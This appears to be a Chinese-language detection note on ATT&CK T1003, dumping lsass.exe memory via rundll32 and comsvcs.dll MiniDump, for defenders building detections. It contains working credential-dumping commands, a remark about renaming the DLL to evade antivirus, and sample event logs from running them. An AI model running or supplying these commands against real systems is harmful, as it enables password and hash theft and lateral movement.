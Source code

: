 # T1003-win-使用comsvc​​s.dll转储Lsass.exe内存

## 来自ATT&CK的描述

凭据转储是从操作系统和软件获取账号登录名和密码（哈希或明文密码）信息的过程。然后可以使用凭据来执行横向移动并访问受限制的信息。

攻击者和专业安全测试人员都可能会使用此技术中提到的几种工具。也可能存在其他自定义工具。

## 测试案例

comsvcs.dll，在系统崩溃时转储进程内存的系统窗口和系统32，通过rundll32编写，该dll包含函数MiniDump。

## 检测日志

- windows 安全日志
- windows Sysmon日志
- Windows Powershell日志

## 测试复现

```yml
powershell -c "rundll32 C:\windows\system32\comsvcs.dll, MiniDump 648 C:\AtomicRedTeam\lsass.dmp full"
#注意：这里648是lsass.exe的PID。
#通过命令tasklist | findstr lsass.exe查找PID值。

C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id $env:TEMP\lsass-comsvcs.dmp full
```

可直接调用rundll32进程(**需要Admin或Root权限**)，在2021年2月一篇文章中提到通过修改comsvcs.dll路径或名称，可绕过火绒/360安全卫士，经过10月实际测试，无法绕过360安全卫士。

## 测试留痕

```log
#Powershell日志，事件ID:400
引擎状态已从 None 更改为 Available。

详细信息: 
 NewEngineState=Available
 PreviousEngineState=None

 SequenceNumber=13

 HostName=ConsoleHost
 HostVersion=5.1.14393.206
 HostId=beebd53e-f854-42ea-8d25-a148d224b726
 HostApplication=C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c rundll32 C:\windows\system32\comsvcs.dll, MiniDump 648 C:\AtomicRedTeam\lsass.dmp full
 EngineVersion=5.1.14393.206
 RunspaceId=af860283-73a9-452c-a1cd-ea808dbaf232
 PipelineId=
 CommandName=
 CommandType=
 ScriptName=
 CommandPath=
 CommandLine=
```

```log
#windows安全日志，事件ID：4688
已创建新进程。

创建者主题:
 安全 ID:  QAX\Administrator
 帐户名:  Administrator
 帐户域:  QAX
 登录 ID:  0xCF2BF2

目标主题:
 安全 ID:  NULL SID
 帐户名:  -
 帐户域:  -
 登录 ID:  0x0

进程信息:
 新进程 ID:  0x11020
 新进程名称: C:\Windows\System32\rundll32.exe
 令牌提升类型: %%1936
 强制性标签:  Mandatory Label\High Mandatory Level
 创建者进程 ID: 0x1abc
 创建者进程名称: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 进程命令行: "C:\Windows\system32\rundll32.exe" C:\windows\system32\comsvcs.dll MiniDump 648 C:\AtomicRedTeam\lsass.dmp full

“令牌提升类型”表示根据用户帐户控制策略分配给新进程的令牌类型。

类型 1 是未删除特权或未禁用组的完全令牌。完全令牌仅在禁用了用户帐户控制或者用户是内置管理员帐户或服务帐户的情况下使用。

类型 2 是未删除特权或未禁用组的提升令牌。当启用了用户帐户控制并且用户选择使用“以管理员身份运行”选项启动程序时，会使用提升令牌。当应用程序配置为始终需要管理特权或始终需要最高特权并且用户是管理员组的成员时，也会使用提升令牌。

类型 3 是删除了管理特权并禁用了管理组的受限令牌。当启用了用户帐户控制，应用程序不需要管理特权并且用户未选择使用“以管理员身份运行”选项启动程序时，会使用受限令牌。
```

## 检测规则/思路

重点关注rundll32进程的异常行为。由于dll名称可变，无法通过日志针对进程名称、dll进程名称进行有效监测。

## 建议

安装终端防护似乎是个不错的选择。

## 参考推荐

MITRE-ATT&CK-T1003

<https://attack.mitre.org/techniques/T1003/>

comsvcs.dll转储lsass（过360卫士&火绒）

<https://www.cnblogs.com/Yang34/p/14418572.html>

Windows明文密码获取

<https://blog.csdn.net/xiangshen1990/article/details/104865393>
